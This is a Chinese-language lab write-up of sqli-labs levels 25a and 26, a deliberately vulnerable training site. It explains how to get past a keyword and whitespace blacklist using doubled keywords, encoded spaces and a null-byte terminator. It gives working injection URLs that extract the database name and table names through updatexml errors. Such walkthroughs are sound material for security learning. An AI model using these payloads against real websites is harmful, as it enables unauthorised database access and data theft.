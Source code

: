 ## ***Less-25a Trick with OR & AND Blind***

这一关关闭了报错，同样过滤了and和or

猜一下。`http://192.168.2.222/sqli-labs-master/Less-25a/?id=1' --+`没反应....可能为数字型注入。

`http://192.168.2.222/sqli-labs-master/Less-25a/?id=1 oorrder by 3`成功回显。

其余步骤类似前面关卡。

## ***Less-26 Trick with comments***

测试单引号，报错，根据报错提示`'1'' LIMIT 0,1`，推出字符型注入，单引号闭合。

用%23或者--+闭合以下，发现还是报错，猜测可能过滤了注释符，可用`;%00`成功绕过。也可用`and '1'='1`拼接后边的单引号。

`http://192.168.2.222/sqli-labs-master/Less-26/?id=1' 1--+2--+3 --+`报错`123' LIMIT 0,1`验证了将注释过滤成了空。

并且`http://192.168.2.222/sqli-labs-master/Less-26/?id=1' 1and2or3 --+`报错`123' LIMIT 0,1`推出and和or也被过滤，尝试双写，发现可以绕过

    
    function blacklist($id)
    {
    	$id= preg_replace('/or/i',"", $id);			//strip out OR (non case sensitive)
    	$id= preg_replace('/and/i',"", $id);		//Strip out AND (non case sensitive)
    	$id= preg_replace('/[\/\*]/',"", $id);		//strip out /*
    	$id= preg_replace('/[--]/',"", $id);		//Strip out --
    	$id= preg_replace('/[#]/',"", $id);			//Strip out #
    	$id= preg_replace('/[\s]/',"", $id);		//Strip out spaces
    	$id= preg_replace('/[\/\\\\]/',"", $id);		//Strip out slashes
    	return $id;
    }

查看源代码，发现空格被过滤了，`/**/`能代替空格但也被过滤了。



考虑空格：用以下几种url编码代替空格即可

* %09 Tab键（水平）
* %0a 新建一行
* %0c 新的一页
* %0d return 键
* %0b Tab键（垂直）
* %a0 空格
* ()    绕过

总结一下，对于or,and这两个，我们可以进行双写或者使用||代表or,&&代表and。注意在hackbar中输入&&时，需要自行URL编码为%26%26，否则会报错，而输入||不需要.

首先尝试一下()绕过，`http://192.168.2.222/sqli-labs-master/Less-26/?id=1' aandnd(updatexml(1,concat(0x5e,database(),0x5e),1));%00`,成功爆出数据库。

`http://192.168.2.222/sqli-labs-master/Less-26/?id=1'aandnd(updatexml(1,concat(0x5e,(select(group_concat(table_name))from(infoorrmation_schema.tables)where(table_schema=database())),0x5e),1));%00`爆出表名，其余操作类似。

![NxpSSI.png](https://s1.ax1x.com/2020/07/04/NxpSSI.png)
